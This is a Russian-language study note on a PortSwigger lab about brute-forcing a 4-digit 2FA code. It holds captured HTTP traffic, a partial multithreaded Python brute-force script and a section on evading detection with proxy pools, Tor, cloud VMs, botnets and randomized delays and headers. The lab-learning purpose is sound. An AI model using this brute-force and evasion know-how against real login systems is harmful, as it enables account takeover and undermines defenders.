


эксперт

есть валидные лог+пар
и есть лог жертвы
после ввода пароля нужно ввести код 2FA
нужно достать 2fa:
код который 2FA высылался - этот код нельзя было больше 1 раза ввести иначе вылетала страница
чтобы получить новый код нужно было заного залогиниться и только потом вводить код!





первая разведка показала что дается 2-3 попытки на ввод 4х значного 2FA кода - потом приходит 400 ответ и токен становится невалидным

тут либо создать кучу токенов и потом проверить каждый 
либо создать макрос который будет каждый третий запрос  перелогиниваться и выполнять запрос входа в аккаунт и потом трижды проверять


сейчас уже заметил что дается лиш одна попытка на проверку - потом выбрасывает из системы



также система не разрешает мне дваждый отправлять один и тот же запрос даже на вход в аккаунт, так как токен csft генерируется каждый раз заного

--------------

1) переходим по ссылке [My account](https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/my-account) 

приходит такой ответ GET /login HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=dlvN0oYdyOp38hnzgEAu1HInqMS3EgUA
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


где  в страницу вшит  токен например - lrYRbcjpwCdCApiYbbrPkdlLfQ63kRdp

```HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3164

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>2FA bypass using a brute-force attack</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>2FA bypass using a brute-force attack</h2>
                            <a class=link-back href='https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="lrYRbcjpwCdCApiYbbrPkdlLfQ63kRdp">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

получив этот токен - мы берем его и подставляем в такой запрос

POST /login HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=dlvN0oYdyOp38hnzgEAu1HInqMS3EgUA
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=lrYRbcjpwCdCApiYbbrPkdlLfQ63kRdp&username=carlos&password=montoya

и выполняем вход в аккаунт


приходит ответ GET /login2 HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=p6QNtGgpWwl5UkseLsl3qiWGwG1aOKO5
Cache-Control: max-age=0
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

где в коде снова вшит токен напрмиер: GUYeMya5NhGSCIkUxMJ5yYDoWRfpMPDk

```HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3005

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>2FA bypass using a brute-force attack</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>2FA bypass using a brute-force attack</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form class=login-form method=POST>
                        <input required type="hidden" name="csrf" value="GUYeMya5NhGSCIkUxMJ5yYDoWRfpMPDk">
                        <label>Please enter your 4-digit security code</label>
                        <input required type=text name=mfa-code>
                        <button class=button type=submit> Login </button>
                    </form>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>


```

брем этот новый токен GUYeMya5NhGSCIkUxMJ5yYDoWRfpMPDk

и отправляем запрос введя четрырех значный код

POST /login2 HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=p6QNtGgpWwl5UkseLsl3qiWGwG1aOKO5
Content-Length: 51
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/login2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=GUYeMya5NhGSCIkUxMJ5yYDoWRfpMPDk&mfa-code=1231


----

теперь нужно зациклить этот круг, подставляя в конце все время новый проверочный код четырех значный ,  а токены должны постоянно обновляться!

так как попытка ввода проверочного кода всего лишь одна!

нужно все варанты кода проверить от 0000 до 9999 (но для теста будет достаточно и 20 запросов)

-------

и думаю , что  нужно вот именно этот запрос постоянно отправлять просто меняя в нем значение csrf=%ss и значение кода mfa-code=%s чтобы не отправлялся каждый раз новый проверочный код, мы просто будем подставлять в данный запрос валидный токен и следующий проверочный код

POST /login2 HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=p6QNtGgpWwl5UkseLsl3qiWGwG1aOKO5
Content-Length: 51
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/login2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=GUYeMya5NhGSCIkUxMJ5yYDoWRfpMPDk&mfa-code=1231


-------

далее ответы я проанализирую сам 


либо:
------
это нужно три бызы сделать ? 
сперва обновлять страницу 10тыс раз и получить 10 тыс токенов

потом 10тыс раз инициаровть вход в учетную запись карлоса и получить еще 10 тыс токенов

и потом уже использовать это крайние 10 тыс токенов для попыток подбора ключа?

_-------_


----------------------

🟢🟢🟢🟢⭐️😁😁
# пошагово попробую это решить:

первое: получит ьавтоматически токен для логина

первое действие - переход по ссылке:
https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/my-account

просмотр содержимого стр и извлечь от туда из строки значение value
 ```
 input required type="hidden" name="csrf" value="D77T9cE3PNc6tojoc10t7rCw8Qn5IRvH"
 ```

-----------
второе действие
нужно отправить запрос

POST /login HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=qwbkeqcjC4yfGHVRHYf69GFGVtz7LaKX
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=D77T9cE3PNc6tojoc10t7rCw8Qn5IRvH&username=carlos&password=montoya


---------
прийдет ответ где в даных прийдет новый токен zt1oyueIocI48qUUK2V9B7F0gcm5qTu2

```HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3005

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>2FA bypass using a brute-force attack</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>2FA bypass using a brute-force attack</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form class=login-form method=POST>
                        <input required type="hidden" name="csrf" value="zt1oyueIocI48qUUK2V9B7F0gcm5qTu2">
                        <label>Please enter your 4-digit security code</label>
                        <input required type=text name=mfa-code>
                        <button class=button type=submit> Login </button>
                    </form>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```

--------

снова берем этот новый токен zt1oyueIocI48qUUK2V9B7F0gcm5qTu2 и отправляем запрос! и подставляем туда проверочный код четырехзначный

этот запрос сохраняем 

далее нужно получать токен новый и подставлять именно в данный запрос!


POST /login2 HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=8ZxfRQvgrG0UkAKtO5nPguUG508ft8uA
Content-Length: 51
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/login2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=zt1oyueIocI48qUUK2V9B7F0gcm5qTu2&mfa-code=1234


---------------


вот руками получил новый токен
TjePg341GEkPO8poLvecOR0rcOM2erFY
пробуем 


POST /login2 HTTP/2
Host: 0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Cookie: session=8ZxfRQvgrG0UkAKtO5nPguUG508ft8uA
Content-Length: 51
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8c00f604be70e8816d573f008d0028.web-security-academy.net/login2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=TjePg341GEkPO8poLvecOR0rcOM2erFY&mfa-code=1334

- не сработало - скорее всего потому что сессию тоже нужно подменить
-
--------

пробуем и сессию подменить

токен вохода в акк    TjePg341GEkPO8poLvecOR0rcOM2erFY

токен для подстановки кода 09AII6sNh8gj0lI3P1ZpHA7T00kLkG8l

отпервил код с кук сесси 
L43xpyAsRZAAccztM15Gedu7RBFQp8f2
и токеном csrf 09AII6sNh8gj0lI3P1ZpHA7T00kLkG8l

отправил этот запрос в репитер (для теста)

получаю новый токен входа ввода кода четырехначного: 
токен для кода a4E7NB07Zw3FolS8aaVqjoGYLPoiaELQ
токе сессии u8Y5ZdRm6XMHCZ6NPMMKehFtZxvEjgwt


подставлю их в тот запрос

ура! получилось (подтвердил что ошибка была в том что выше я не подставил сессию Cookie: session)

НО у МЕНЯ вопрос! в чем смысл? ведь каждый раз когда я получаю новые токены для запроса то карлосу отправляется новый код из 4цифр раз за разом и каждыя моя попытка - я отгадываю новый код.
другое дело было бы если бы я отгадывал один код который отправился карлосу только первый раз, тогда да - смысл бы был и из 10000тыс попыток точно бы отгдал его код! но ведь код каждый раз новый ему отправляется? в чем смыл тогда? что не так  я понял?


но тогда я не понимаю как это может впринци сработать ведь если я вхожу каждый раз в аккаунт carlos  -то каждый раз его будет отправляться новый токен, и тогде бессмысленно так перебирать токены!
в чем смысл лаболатории?

# ГПТ мне обьяснил! оказывается! очень часто, при очередном входе - система не отправляет каждый раз новый код 2FA ! у этого кода свой срок жизни - напрмиер 10 минут! и за эти 10 минут я должен перебрать все варианты - попробовав угадать его! и даже запустить снова проверку чтобы снова угадать ))

это мой рабочий скрипт который смог найти подобрать код!
==пробую настроить скрипт для этого цикла==


#  🟣суть и выводы!
код который 2FA высылался - этот код нельзя было больше 1 раза ввести иначе вылетала страница
чтобы получить новый код нужно было заного залогиниться и только потом вводить код!

и нетрудно догадаться что все что нужно сделать - это  автоматизировать этот процесс!
делаем нужные входы и получаем нужные токены, делаем следующие переходы и получаем нужные токены!

и отправляем запрос который не блокируется 1 раз с кодом 2FA из пейлоада
для кода 4цифр = 10 000 значений..... 

так как у кодов 2FA есть время жизни, то сложно за этот коротки промежуток времени подобрать нужный код. приходится делать 30 000 запросо для всех комбинаций из 4 цифр так как нужно цикл входа выполнить по сайту для обновления токенов,,,

если четсно , то слабо себе предствляю чтобы влом вот так злоумышленник мог так это делать. WAF или soc команда заблокировала бы это все дело.... 

наверно нужно смена ip + изменение динамическое юзер агента и других параметров, чтобы системам было тяжелее заподозрить неладное+delay разный делать..... а может даже с разных пк запускать задачу разделяя пейоады! там 15 соединений, + с другого адреса 15соединений итд... либо можно через подмену у себя ip делать очень много запросов сразу наверно .. не знаю

-----------------
## . **Как обходят эти ограничения хакеры:**

### Способ A: Прокси-серверы (самый популярный)
# Пример: Использование списка прокси
proxies = [
    "http://proxy1.com:8080",
    "http://proxy2.com:8080", 
    # ... 500+ прокси
]

# Каждый запрос через случайный прокси
for i in range(1000):
    proxy = random.choice(proxies)
    requests.get(url, proxies={"http": proxy, "https": proxy})

----------------

### Способ B: Tor сеть

python

import requests
from torpy import TorClient

# Каждый запрос через новый Tor цепь (новый IP)
with TorClient() as tor:
    for i in range(1000):
        with tor.create_http_session() as session:
            response = session.get(url)  # Каждый раз новый IP

----------------

### Способ C: Облачные сервисы (AWS, Google Cloud)

- Запуск скрипта на множестве виртуальных машин
    
- Каждая VM имеет свой внешний IP
    
- Можно получить 1000+ уникальных IP

-------------

### Способ D: Ботнеты

- Заражённые компьютеры по всему миру
    
- Каждый имеет уникальный IP
    
- **Нелегально!**

--------------

Случайные задержки (имитация человека)
Случайные заголовки
Отправка через прокси
Использование пула прокси
 Медленный, но незаметный брутфорс


# скрипт со ссылками рабочий 

```python
#!/usr/bin/env python3  
"""  
2FA Brute Force Attack - Многопоточная версия с улучшенной отладкой  
"""  
  
import requests  
import re  
import time  
import sys  
import threading  
from concurrent.futures import ThreadPoolExecutor  
from typing import Optional, Tuple, Dict, List  
from dataclasses import dataclass  
from datetime import datetime  
from queue import Queue  
  
  
# ===================== КОНФИГУРАЦИЯ =====================  
@dataclass  
class Config:  
    BASE_URL = "https://0a2c001703da454781b8204d00f900d7.web-security-academy.net"  
    USERNAME = "carlos"  
    PASSWORD = "montoya"  
    START_CODE = 0  
    END_CODE = 9999  # до  
    THREADS = 30  
    DELAY_BETWEEN_REQUESTS = 0.05  
    DEBUG = False  
    MAX_RETRIES = 5  # Повторные попытки при ошибках сети  
    TIMEOUT = 10  
  
  
# ===================== УЛУЧШЕННЫЙ ЛОГГЕР =====================  
class ThreadSafeLogger:  
    """Потокобезопасный логгер с детальной отладкой"""  
  
    RED = '\033[91m'  
    GREEN = '\033[92m'  
    YELLOW = '\033[93m'  
    BLUE = '\033[94m'  
    MAGENTA = '\033[95m'  
    CYAN = '\033[96m'  
    RESET = '\033[0m'  
    BOLD = '\033[1m'  
  
    _lock = threading.Lock()  
    _network_errors = 0  
  
    @classmethod  
    def log(cls, message: str, level: str = "INFO"):  
        timestamp = datetime.now().strftime("%H:%M:%S.%f")[:-3]  
  
        if level == "SUCCESS":  
            color = cls.GREEN  
            symbol = "🎉"  
        elif level == "ERROR":  
            color = cls.RED  
            symbol = "❌"  
        elif level == "WARNING":  
            color = cls.YELLOW  
            symbol = "⚠️"  
        elif level == "NETWORK":  
            color = cls.CYAN  
            symbol = "🌐"  
            cls._network_errors += 1  
        elif level == "DEBUG":  
            color = cls.BLUE  
            symbol = "🐛"  
        else:  
            color = cls.RESET  
            symbol = "ℹ️"  
  
        with cls._lock:  
            print(f"{color}[{timestamp}] {symbol} {message}{cls.RESET}")  
  
    @classmethod  
    def print_header(cls, text: str):  
        with cls._lock:  
            print(f"\n{cls.BOLD}{cls.MAGENTA}{'=' * 100}")  
            print(f"  {text}")  
            print(f"{'=' * 100}{cls.RESET}\n")  
  
    @classmethod  
    def print_table_header(cls):  
        with cls._lock:  
            print(f"\n{'=' * 180}")  
            print(  
                f"{'Код':^8} | {'Статус':^8} | {'Длина':^10} | {'Токен':^6} | {'Куки':^6} | {'Поток':^6} | {'Запросы':^8} | {'Сессия':^40} | {'CSRF токен':^40} | {'Примечание':^20}")  
            print(f"{'-' * 180}")  
  
    @classmethod  
    def print_table_row(cls, code: str, status: int, length: int,  
                        has_token: bool, has_cookie: bool, thread_id: str,  
                        request_count: int, note: str = "", error_details: str = "",  
                        session_cookie: str = "", csrf_token: str = ""):  
        """Выводим сами значения куки и токена для ручного использования"""  
        token_status = "ДА" if has_token else "НЕТ"  
        cookie_status = "ДА" if has_cookie else "НЕТ"  
  
        # Форматируем значения для отображения  
        session_display = session_cookie[:40] + "..." if len(session_cookie) > 40 else session_cookie  
        csrf_display = csrf_token[:40] + "..." if csrf_token and len(csrf_token) > 40 else (csrf_token or "")  
  
        if status == 302:  
            color = cls.GREEN  
            bg_color = '\033[42m\033[30m'  # Зеленый фон, черный текст  
            note = "🎉 УСПЕХ!" if not note else note  
        elif status == 400:  
            color = cls.RED  
            bg_color = '\033[41m\033[30m'  # Красный фон  
            note = "400 ОШИБКА" if not note else note  
        elif status == 0:  
            color = cls.RED  
            bg_color = '\033[41m\033[30m'  
            note = "СЕТЕВАЯ ОШИБКА" if not note else note  
        elif status == 429:  # Too Many Requests  
            color = cls.YELLOW  
            bg_color = '\033{43}\033{30}m'  # Желтый фон  
            note = "429 ЛИМИТ" if not note else note  
        else:  
            color = cls.RESET  
            bg_color = ''  
  
        with cls._lock:  
            if status == 302:  # Выделяем успех цветом фона  
